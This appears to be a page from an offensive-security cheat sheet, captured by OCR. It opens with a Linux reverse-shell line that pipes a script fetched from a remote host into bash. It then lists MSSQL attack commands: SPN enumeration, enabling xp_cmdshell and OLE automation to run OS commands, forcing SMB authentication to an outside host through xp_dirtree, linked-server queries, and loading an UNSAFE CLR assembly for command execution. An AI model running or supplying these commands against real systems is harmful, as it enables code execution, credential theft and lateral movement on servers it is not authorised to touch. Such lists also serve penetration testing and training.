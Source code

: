 Linux rev shell bash

```shell
curl 192.168.1.1/s.sh | bash
```

---

## MSSQL

---

Query MSSQL servers

```plaintext
setspn -T <domain> -Q MSSQLSvc/*

. .\GetUserSPNs.ps1
```

xp\_cmdshell

```sql
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'whoami'
```

xp\_dirtree

```plaintext
.\SQL.exe sql.domain.com msdb "EXEC master.sys.xp_dirtree '\\192.168.1.1\file', 1, 1;"
```

sp\_OACreate and sp\_OAMethod

```sql
EXEC sp_configure 'Ole Automation Procedures', 1; RECONFIGURE;
DECLARE @myshell INT; EXEC sp_oacreate 'wscript.shell', @myshell OUTPUT; EXEC sp_oamethod @myshell, 'run', null, 'cmd /c \"echo Test > C:\\Tools\\file.txt\"';
```

Exec on linked server

```sql
select * from openquery("SERVER", 'select USER_NAME()')
```

Custom assembly from file

```sql
use msdb

EXEC sp_configure 'show advanced options',1
RECONFIGURE

EXEC sp_configure 'clr enabled',1
RECONFIGURE

EXEC sp_configure 'clr strict security', 0
RECONFIGURE

CREATE ASSEMBLY myAssembly FROM 'c:\tools\cmdExec.dll' WITH PERMISSION_SET = UNSAFE;

CREATE PROCEDURE [dbo].[cmdExec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [myAssembly].[StoredProcedures].[cmdExec];

EXEC cmdExec 'whoami'
```
